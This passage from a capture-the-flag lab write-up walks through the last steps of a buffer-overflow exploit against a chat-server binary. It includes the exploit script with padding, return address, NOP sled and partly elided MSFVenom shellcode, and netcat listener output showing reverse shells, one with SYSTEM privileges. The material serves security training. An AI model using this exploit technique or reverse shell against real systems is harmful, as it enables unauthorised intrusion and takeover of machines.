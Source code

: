 We now have all the information we need to complete our script:

```text
address = '192.168.0.11'
port = 9999
user = 'pencer.io'
buf =  b""
buf += b"\xba\x40\xfd\xb6\x4c\xd9\xe9\xd9\x74\x24\xf4\x58\x31"
<SNIP>
buf += b"\x43\x68\x9f\xb2\x0e\x8b\x4a\xf0\x36\x08\x7e\x89\xcc"
buf += b"\x10\x0b\x8c\x89\x96\xe0\xfc\x82\x72\x06\x52\xa2\x56"
esp = '\xdf\x14\x50\x62'
nop = '\x90'*20

message = 'A' * 2012 
message += esp
message += nop
message += buf
```

Those parameters explained:

```text
'A' * 2012 - The number of A's needed to crash the application
ESP        - The value of the ESP that will instruct the application to execute our code
NOP        - Our code may get cut off, adding a NOP sled ensures it works
BUF        - This is our shellcode from MSFVenom
```

Now we just have to start netcat listening on Kali. Ensure the chatserver is running on our Win7 VM, then run our script:

```text
root@kali:/home/kali/thm/brainstorm# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.0.20] from (UNKNOWN) [192.168.0.11] 63138
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\administrator\Desktop>
```

## Gaining Access

We have our reverse shell working against our local copy of the application. To complete the room we just need to run it against the server version now. To do this we need the IP of the server, which we then put in our script to change it from the IP of our Win7 VM. We also need to run MSFVenom again and give it the IP of our VPN adapter on Kali instead of the one on the local network. Then we just start netcat listening again and run our script:

```text
root@kali:/home/kali/thm/brainstorm# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.14.6.200] from (UNKNOWN) [10.10.20.47] 49166
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
